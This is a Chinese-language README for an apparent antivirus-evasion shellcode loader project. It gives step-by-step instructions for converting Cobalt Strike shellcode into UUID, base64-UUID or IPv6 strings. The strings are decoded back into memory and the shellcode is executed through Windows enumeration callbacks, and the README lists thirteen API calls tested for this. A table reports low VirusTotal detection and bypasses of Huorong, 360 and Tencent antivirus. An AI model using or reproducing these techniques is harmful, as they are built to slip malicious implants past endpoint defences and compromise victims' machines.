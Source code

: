 # 免杀方式：回调函数



## 编译环境：

VS2022、Windows SDK 10.0、C++14



## 目录

| 版本号 | 写入内存方式                      | VT查杀率 | 时间       | 火绒 | 360  | 腾讯 | 代码 |
| ------ | --------------------------------- | -------- | ---------- | ---- | ---- | ---- | ---- |
| 0.1    | uuid转化(UuidFromStringA)         | 4/68     | 2022-02-18 | √    | √    | √    | c++  |
| 0.2    | base64+uuid转化(UuidFromStringA)  | 2/68     | 2022-02-18 | √    | √    | √    | c++  |
| 0.3    | ipv6转化(RtlIpv6StringToAddressA) | 2/68     | 2022-02-21 | √    | √    | √    | c++  |



## 上手指南

 使用Cobalt Strike生成X64位的shellcode

![image-20220218181020741](../images/image-callback-1.png)

###  版本0.1

将shellcode替换至./v0.1/trans.py中的buf变量，并执行该脚本。(shellcode -> uuid)

```bash
python3 ./v0.1/trans.py
```

![image-20220218192747863](../images/image-callback-2.png)

将转换好的uuid，替换至./v0.1/main.cpp中的uuids字符串数组中

编译运行即可。



### 版本0.2

将shellcode替换至./v0.2/trans.py中的buf变量，并执行该脚本。(shellcode -> uuid -> base64)

```bash
python3 ./v0.2/trans.py
```

![image-20220218193413454](../images/image-callback-3.png)

将转换好的base64，替换至./v0.2/main.cpp中的uuids_base64数组中

编译运行即可。



### 版本0.3

先将shellcode转化为ipv6格式，客户端读取ipv6之后调用RtlIpv6StringToAddressA恢复成shellcode再通过回调函数加载至内存

将shellcode替换至./v0.3/trans.py中的buf变量，并执行该脚本。(shellcode -> ipv6)

```python
python3 ./v0.3/trans.py
```

![111](../images/image-callback-5.png)

将转换好的ipv6，替换至./v0.3/main.cpp中的ipv6数组中

编译运行即可。



## 解决出现黑框情况

[VS中运行去除黑框](https://github.com/midisec/BypassAnti-Virus/blob/main/common/VS%E4%B8%AD%E8%BF%90%E8%A1%8C%E5%8E%BB%E9%99%A4%E9%BB%91%E6%A1%86.md)



## 原理分析

什么是UUID？  通用唯一标识符 ( Universally Unique Identifier )， 我们可以利用该机制将shellcode转化成uuid，并在运行程序时，将uuid重新转化成uuid，加载至内存。

什么是回调函数？  回调函数（callback）是一个通过函数指针来调用的函数。

如何利用回调函数？  在windows系统中，有许多库函数需要传递一个回调函数，因此我们可以通过该机制，将恶意的shellcode加载至内存。

![cucv50oqin](../images/image-callback-4.png)

WINDOWS库中，可利用的回调函数，经过测试，以下均可以成功执行回调函数加载shellcode。

```c++
EnumSystemLocalesA((LOCALE_ENUMPROCA)ha, 0);
EnumTimeFormatsA((TIMEFMT_ENUMPROCA)ha, 0, 0);
EnumWindows((WNDENUMPROC)ha, 0);
EnumDesktopWindows(NULL,(WNDENUMPROC)ha, 0);
EnumThreadWindows(0, (WNDENUMPROC)ha, 0);
EnumSystemGeoID(0, 0, (GEO_ENUMPROC)ha);
EnumSystemLanguageGroupsA((LANGUAGEGROUP_ENUMPROCA)ha, 0, 0);
EnumUILanguagesA((UILANGUAGE_ENUMPROCA)ha, 0, 0);
EnumSystemCodePagesA((CODEPAGE_ENUMPROCA)ha, 0);
EnumDesktopsW(NULL,(DESKTOPENUMPROCW)ha, NULL);
EnumSystemCodePagesW((CODEPAGE_ENUMPROCW)ha, 0);
EnumDateFormatsA((DATEFMT_ENUMPROCA)ha, 0, 0);
EnumChildWindows(NULL, (WNDENUMPROC)ha, 0);
```



IPV6同uuid的原理，先将恶意payload转化成ipv6格式，再通过windows系统库函数去解析成shellcode，再去加载至内存，达到免杀效果。





## 参考

https://my.oschina.net/u/4079523/blog/5011399

https://cloud.tencent.com/developer/article/1819583

https://mp.weixin.qq.com/s/3Hit7a3hQ97XDHaMSZQ8cQ

https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-enumthreadwindows